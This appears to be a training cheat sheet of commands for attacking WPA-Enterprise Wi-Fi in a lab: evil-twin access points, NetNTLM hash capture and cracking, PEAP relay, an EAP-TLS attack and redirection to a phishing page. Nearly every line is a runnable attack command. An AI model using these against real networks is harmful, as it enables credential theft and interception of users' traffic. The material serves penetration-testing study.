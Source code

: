 | Command                                                                                                        | Description                                                    |
| -------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `openssl dhparam -out dh.pem 2048`                                                                             | Generate Diffie-Hellman parameters.                            |
| `openssl genrsa -out ca-key.pem 2048`                                                                          | Generate CA private key.                                       |
| `openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem`                                          | Generate CA certificate.                                       |
| `openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem`<br>                 | Generate server private key.                                   |
| `openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem`   | Generate server certificate.                                   |
| `sudo hostapd-mana hostapd.conf`                                                                               | Start the fake access point using hostapd-mana.                |
| `/opt/eaphammer/eaphammer --cert-wizard`                                                                       | Generate self-signed certificates automatically with eaphammer. |
| `sudo /opt/eaphammer/eaphammer --interface wlan1 --negotiate balanced --auth wpa-eap --essid HTB-Corp --creds` | Start the fake access point using eaphammer.                   |


# Enterprise Evil-Twin Attack

| Command                                                                             | Description                                                      |
| ----------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| `cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf`                             | Make a copy of the hostapd-wpe configuration file.               |
| `sudo hostapd-wpe -c -k hostapd-wpe.conf`                                           | Start the fake access point using hostapd-wpe.                   |
| `/opt/eaphammer/eaphammer --cert-wizard`                                            | Generate self-signed certificates automatically using eaphammer. |
| `sudo /opt/eaphammer/eaphammer -i wlan1 -e HTB-Corp --auth wpa-eap --wpa-version 2` | Start the fake access point using eaphammer.                     |
| `hashcat -m 5500 -a 0 <captured_hash> wordlist.dict`                                | Crack the captured NetNTLM hash using Hashcat.                   |


# PEAP Relay Attack

| Command                                                                     | Description                                      |
| --------------------------------------------------------------------------- | ------------------------------------------------ |
| `sudo hostapd-mana ./hostapd.conf`                                          | Launch the fake access point using hostapd-mana. |
| `sudo /opt/wpa_sycophant/wpa_sycophant.sh -c wpa_sycophant.config -i wlan2` | Start the relay by initiating wpa-sycophant.     |

# Attacking EAP-TLS Authentication

| Command                                                               | Description                                                   |
| --------------------------------------------------------------------- | ------------------------------------------------------------- |
| `cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf`               | Make a copy of the hostapd-wpe configuration file.            |
| `cd /opt/hostapd-2.6 && patch -p1 < ../hostapd-wpe/hostapd-wpe.patch` | Apply the patch to the hostapd-2.6 source code.               |
| `cd /opt/hostapd-2.6/hostapd && make`                                 | Recompile hostapd with the updated configuration.             |
| `sudo /opt/hostapd-2.6/hostapd/hostapd-wpe hostapd-wpe.conf`          | Start the fake access point using the recompiled hostapd-wpe. |
| `sudo python2 nagaw.py -i wlan1 -o wlan2 -t demo`                     | Redirect clients to a phishing page using nagaw.py            |
